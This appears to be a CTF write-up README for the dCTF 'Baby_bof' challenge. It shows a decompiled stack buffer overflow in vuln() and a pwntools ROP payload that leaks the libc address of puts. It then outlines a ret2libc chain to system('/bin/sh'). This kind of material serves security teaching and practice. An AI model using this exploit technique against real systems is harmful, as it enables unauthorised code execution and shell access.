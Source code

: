 # Readme

Bufferoverflow bug in the **vuln()** function

```c
int vuln()
{
  char s[10]; // [rsp+6h] [rbp-Ah] BYREF

  puts("plz don't rop me");
  fgets(s, 256, _bss_start);
  return puts("i don't think this will work");
}
```

No **win()** function here, and no **system()** here, but still we can call shell with **ret2libc**

First we need to leak the address of libc
```py
payload = b'A'*10
payload += p64(0xdeadbeef)
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.sym['puts'])
payload += p64(elf.entry)
p.sendline(payload)
```

That payload same as 
```c
puts(puts_GOT());
```

So program will print address of **puts** and back to **_start** 
![LIBC](babybof.png)

Cool now we have libc leak, next step we need to calculate the base address of libc
U can find the offset in [Here](https://libc.blukat.me/)

After that u can make rop to call `libc.system("/bin/sh")`


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Baby_bof/exploit.py)

![Flag](babybof2.png)
